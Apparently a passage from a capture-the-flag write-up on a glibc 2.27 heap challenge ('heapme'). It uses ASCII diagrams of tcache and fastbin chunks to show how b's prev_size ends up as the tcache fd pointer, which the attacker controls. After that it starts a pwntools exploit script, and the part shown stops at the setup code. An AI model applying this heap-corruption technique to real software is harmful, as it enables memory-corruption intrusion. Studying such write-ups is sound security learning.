 ```bash
+-------+                    +-----------+-----------+
|       +-------------+      | prev_size |   size    |
+-------+             |      +-----------+-----------+
|       |             +------>  fd                   |
+-------+                    |                       |
|       |                    |                       |
+-------+                    +-----------------------+

```
After the last free, it becomes:
```bash
 tcache                                 a
+-------+                    +-----------+-----------+
|       +-------------+      | prev_size |   size    |
+-------+             |      +-----------+-----------+
|       |             +------>  fd                   +-------+
+-------+                    |                       |       |
|       |                    |                       |       |
+-------+                    +-----------------------+       |
                                                             |
                                                         +---+
                                                         |
fastbin                                 a                |            b
+-------+                    +-----------+-----------+   | +-----------+-----------+
|       +-------------+      | prev_size |   size    | +-+-> prev_size |   size    |
+-------+             |      +-----------+-----------+ |   +-----------+-----------+
|       |             +------>  fd=b                 +-+   |  fd=0                 |
+-------+                    |                       |     |                       |
|       |                    |                       |     |                       |
+-------+                    +-----------------------+     +-----------------------+

```

Oh no! The `prev_size` of `b` will be used as the `fd` of the `tcache`! And this field can be controled by us!

Well, now you know how to solve the challenge.

Final exp:
```python
from pwn import *

local=1
pc='./heapme'
remote_addr=['',0]
aslr=False
#context.log_level=True

libc=ELF('/lib/x86_64-linux-gnu/libc-2.27.so')

if local==1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
    gdb.attach(p,'c')
else:
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

```